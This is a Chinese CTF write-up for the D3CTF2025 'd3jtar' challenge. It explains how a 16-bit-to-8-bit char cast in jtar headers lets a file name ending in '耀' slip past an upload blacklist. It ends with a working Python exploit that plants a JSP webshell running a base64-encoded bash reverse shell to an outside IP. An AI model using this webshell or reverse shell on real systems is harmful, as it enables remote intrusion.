



+++
title= "D3CTF2025 D3jtar"
slug= "d3ctf-2025-d3jtar"
description= ""
date= "2025-12-18T22:55:03+08:00"
lastmod= "2025-12-18T22:55:03+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

这是一道比较简单的题目，不涉及反序列化的知识，一个 Jtar 的解析问题

```bash
git clone https://github.com/5i1encee/D3CTF2025-d3jtar.git
wget -O jdk-8u202-linux-x64.tar.gz https://repo.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz

docker build -t d3jtar_image .
docker run -d -p 8080:8080 --name d3jtar d3jtar_image
```

启动容器之后，解压 tar 包开始分析，看下控制器

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package d3.example.controller;

import d3.example.utils.BackUp;
import d3.example.utils.Upload;
import java.io.File;
import java.io.IOException;
import java.nio.file.Paths;
import java.util.Arrays;
import java.util.HashSet;
import java.util.Objects;
import java.util.Set;
import javax.servlet.http.HttpServletRequest;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.ResponseBody;
import org.springframework.web.multipart.MultipartFile;
import org.springframework.web.servlet.ModelAndView;

@Controller
public class MainController {
    @GetMapping({"/view"})
    public ModelAndView view(@RequestParam String page, HttpServletRequest request) {
        if (page.matches("^[a-zA-Z0-9-]+$")) {
            String viewPath = "/WEB-INF/views/" + page + ".jsp";
            String realPath = request.getServletContext().getRealPath(viewPath);
            File jspFile = new File(realPath);
            if (realPath != null && jspFile.exists()) {
                return new ModelAndView(page);
            }
        }

        ModelAndView mav = new ModelAndView("Error");
        mav.addObject("message", "The file don't exist.");
        return mav;
    }

    @PostMapping({"/Upload"})
    @ResponseBody
    public String UploadController(@RequestParam MultipartFile file) {
        try {
            String uploadDir = "webapps/ROOT/WEB-INF/views";
            Set<String> blackList = new HashSet(Arrays.asList("jsp", "jspx", "jspf", "jspa", "jsw", "jsv", "jtml", "jhtml", "sh", "xml", "war", "jar"));
            String filePath = Upload.secureUpload(file, uploadDir, blackList);
            return "Upload Success: " + filePath;
        } catch (Upload.UploadException e) {
            return "The file is forbidden: " + e;
        }
    }

    @PostMapping({"/BackUp"})
    @ResponseBody
    public String BackUpController(@RequestParam String op) {
        if (Objects.equals(op, "tar")) {
            try {
                BackUp.tarDirectory(Paths.get("backup.tar"), Paths.get("webapps/ROOT/WEB-INF/views"));
                return "Success !";
            } catch (IOException var3) {
                return "Failure : tar Error";
            }
        } else if (Objects.equals(op, "untar")) {
            try {
                BackUp.untar(Paths.get("webapps/ROOT/WEB-INF/views"), Paths.get("backup.tar"));
                return "Success !";
            } catch (IOException var4) {
                return "Failure : untar Error";
            }
        } else {
            return "Failure : option Error";
        }
    }
}
```

三个路由，view 解析 jsp，Upload 上传文件但是有黑名单，BackUp 打包 tar 和解包 tar，看下具体实现

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package d3.example.utils;

import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.nio.file.Files;
import java.nio.file.LinkOption;
import java.nio.file.Path;
import java.util.Collections;
import java.util.List;
import org.kamranzafar.jtar.TarEntry;
import org.kamranzafar.jtar.TarInputStream;
import org.kamranzafar.jtar.TarOutputStream;

public class BackUp {
    public static void tarDirectory(Path outputFile, Path inputDirectory) throws IOException {
        tarDirectory(outputFile, inputDirectory, Collections.emptyList());
    }

    public static void tarDirectory(Path outputFile, Path inputDirectory, List<String> pathPrefixesToExclude) throws IOException {
        FileOutputStream dest = new FileOutputStream(outputFile.toFile());
        Path outputFileAbsolute = outputFile.normalize().toAbsolutePath();
        Path inputDirectoryAbsolute = inputDirectory.normalize().toAbsolutePath();
        int inputPathLength = inputDirectoryAbsolute.toString().length();

        try (TarOutputStream out = new TarOutputStream(new BufferedOutputStream(dest))) {
            Files.walk(inputDirectoryAbsolute).forEach((entry) -> {
                if (!Files.isDirectory(entry, new LinkOption[0])) {
                    if (!entry.equals(outputFileAbsolute)) {
                        try {
                            String relativeName = entry.toString().substring(inputPathLength + 1);
                            out.putNextEntry(new TarEntry(entry.toFile(), relativeName));
                            BufferedInputStream origin = new BufferedInputStream(new FileInputStream(entry.toFile()));
                            byte[] data = new byte[2048];

                            int count;
                            while((count = origin.read(data)) != -1) {
                                out.write(data, 0, count);
                            }

                            out.flush();
                            origin.close();
                        } catch (IOException e) {
                            e.printStackTrace();
                        }

                    }
                }
            });
        }

    }

    public static void untar(Path outputDirectory, Path inputTarFile) throws IOException {
        try (FileInputStream fileInputStream = new FileInputStream(inputTarFile.toFile())) {
            untar(outputDirectory, (InputStream)fileInputStream);
        }

    }

    public static void untar(Path outputDirectory, InputStream inputStream) throws IOException {
        TarEntry entry;
        try (TarInputStream tarInputStream = new TarInputStream(inputStream)) {
            while((entry = tarInputStream.getNextEntry()) != null) {
                byte[] data = new byte['耀'];
                File outputFile = new File(outputDirectory + "/" + entry.getName());
                if (!outputFile.getParentFile().isDirectory()) {
                    outputFile.getParentFile().mkdirs();
                }

                FileOutputStream fos = new FileOutputStream(outputFile);
                BufferedOutputStream dest = new BufferedOutputStream(fos);

                int count;
                while((count = tarInputStream.read(data)) != -1) {
                    dest.write(data, 0, count);
                }

                dest.flush();
                dest.close();
            }
        }

    }
}
```

首先就是看到没有对`entry.getName()`进行任何校验或路径规范化，但是都这题没有影响，tarDirectory 将指定目录下的所有文件打包成一个`.tar`文件，另一边就是解包，跟进看看

```java
public void putNextEntry(TarEntry entry) throws IOException {
    this.closeCurrentEntry();
    byte[] header = new byte[512];
    entry.writeEntryHeader(header);
    this.write(header);
    this.currentEntry = entry;
}
```

跟进 writeEntryHeader 

```java
public void writeEntryHeader(byte[] outbuf) {
    int offset = 0;
    offset = TarHeader.getNameBytes(this.header.name, outbuf, offset, 100);
    offset = Octal.getOctalBytes((long)this.header.mode, outbuf, offset, 8);
    offset = Octal.getOctalBytes((long)this.header.userId, outbuf, offset, 8);
    offset = Octal.getOctalBytes((long)this.header.groupId, outbuf, offset, 8);
    long size = this.header.size;
    offset = Octal.getLongOctalBytes(size, outbuf, offset, 12);
    offset = Octal.getLongOctalBytes(this.header.modTime, outbuf, offset, 12);
    int csOffset = offset;

    for(int c = 0; c < 8; ++c) {
        outbuf[offset++] = 32;
    }

    outbuf[offset++] = this.header.linkFlag;
    offset = TarHeader.getNameBytes(this.header.linkName, outbuf, offset, 100);
    offset = TarHeader.getNameBytes(this.header.magic, outbuf, offset, 8);
    offset = TarHeader.getNameBytes(this.header.userName, outbuf, offset, 32);
    offset = TarHeader.getNameBytes(this.header.groupName, outbuf, offset, 32);
    offset = Octal.getOctalBytes((long)this.header.devMajor, outbuf, offset, 8);
    offset = Octal.getOctalBytes((long)this.header.devMinor, outbuf, offset, 8);

    for(int var21 = TarHeader.getNameBytes(this.header.namePrefix, outbuf, offset, 155); var21 < outbuf.length; outbuf[var21++] = 0) {
    }

    long checkSum = this.computeCheckSum(outbuf);
    Octal.getCheckSumOctalBytes(checkSum, outbuf, csOffset, 8);
}
```

这里文件上传主要过滤的是文件名，所以直接跟进 getNameBytes

```java
public static int getNameBytes(StringBuffer name, byte[] buf, int offset, int length) {
    int i;
    for(i = 0; i < length && i < name.length(); ++i) {
        buf[offset + i] = (byte)name.charAt(i);
    }

    while(i < length) {
        buf[offset + i] = 0;
        ++i;
    }

    return offset + length;
}
```

`(byte)name.charAt(i)`进行强转，char 是 16 位，但是转换为 byte 之后，只取字符的低 8 位，只支持 ASCII 字符，



注意到这里专门给了一个**耀**，本地写个 demo 测试下

```java
public class YaoTest {
    public static void main(String[] args) {
        String filename = "shell.jsp耀";

        System.out.println("原始文件名: " + filename);
        System.out.println("--------------------------------------------------");
        System.out.println("字符\t| Unicode(16bit)\t| 强转后 Byte(8bit)\t| 含义");
        System.out.println("--------------------------------------------------");

        byte[] buf = new byte[20];

        for (int i = 0; i < filename.length(); i++) {
            char c = filename.charAt(i);
            byte b = (byte) c;
            buf[i] = b;

            System.out.printf("'%c'\t| 0x%04x\t\t| 0x%02x\t\t\t| %s\n",
                    c, (int)c, b, (b == 0 ? "NULL BYTE (空字节) !!!" : "正常字符"));
        }

        System.out.println("--------------------------------------------------");
        System.out.print("最终写入 Tar 头部的字节流: ");
        for(int i=0; i<filename.length(); i++) {
            System.out.print(buf[i] + " ");
        }
    }
}
```



解压的时候正常解压就会截断了，就成功上传了，最终 exp 如下

```python
import httpx
import base64

base_url = "http://154.36.181.12:8080/"

payload_jsp = '''<%@ page import="java.io.*" %>
<%
response.setContentType("text/html;charset=UTF-8");
Process process = null;
BufferedReader reader = null;
String line = null;
StringBuilder output = new StringBuilder();
try {
    process = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNTQuMzYuMTgxLjEyLzEyMzQ1IDA+JjE=}|{base64,-d}|{bash,-i}");
    reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
    while ((line = reader.readLine()) != null) {
        output.append(line + "\\n");
    }
    process.waitFor();
} catch (Exception e) {
    output.append("Error executing command: ").append(e.getMessage());
} finally {
    if (reader != null) { try { reader.close(); } catch (IOException e) {} }
    if (process != null) { process.destroy(); }
}
%>
<%= output.toString() %>'''

def upload(client):
    u = base_url + "Upload"
    files = {'file': ("a.jsp耀", payload_jsp)}
    response = client.post(u, files=files)
    return response.text

def tar(client):
    u = base_url + "BackUp"
    response = client.post(u, data={"op": "tar"})
    # print(f"[+] Tar Output: {response.text.strip()}")

def untar(client):
    u = base_url + "BackUp"
    response = client.post(u, data={"op": "untar"})
    # print(f"[+] Untar Output: {response.text.strip()}")

def view(client, filename_prefix):
    u = base_url + "view"
    params = {'page': filename_prefix, "cmd": "ls /"} 
    # print(f"[*] Triggering payload at: {u}?page={filename_prefix}")
    try:
        response = client.get(u, params=params, timeout=10.0)
        print(f"[+] Response:\n{response.text}")
    except httpx.ReadTimeout:
        print("[*] Request timed out. This often means the Reverse Shell was triggered successfully!")

def main():
    with httpx.Client() as client:
        print("--- 1. Uploading Malicious File ---")
        upload_resp = upload(client)
        print(f"Server Response: {upload_resp}")

        try:
            uploaded_filename = upload_resp.split(": ")[1].split(".")[0]
            print(f"Parsed Filename Hash: {uploaded_filename}")
        except IndexError:
            print("[-] Error parsing upload response. Check if server is reachable.")
            return

        print("\n--- 2. Compressing (Tar) ---")
        tar(client)

        print("\n--- 3. Decompressing (Untar - Triggering Truncation) ---")
        untar(client)

        print("\n--- 4. Executing Webshell ---")
        view(client, uploaded_filename)

if __name__ == "__main__":
    main()
```


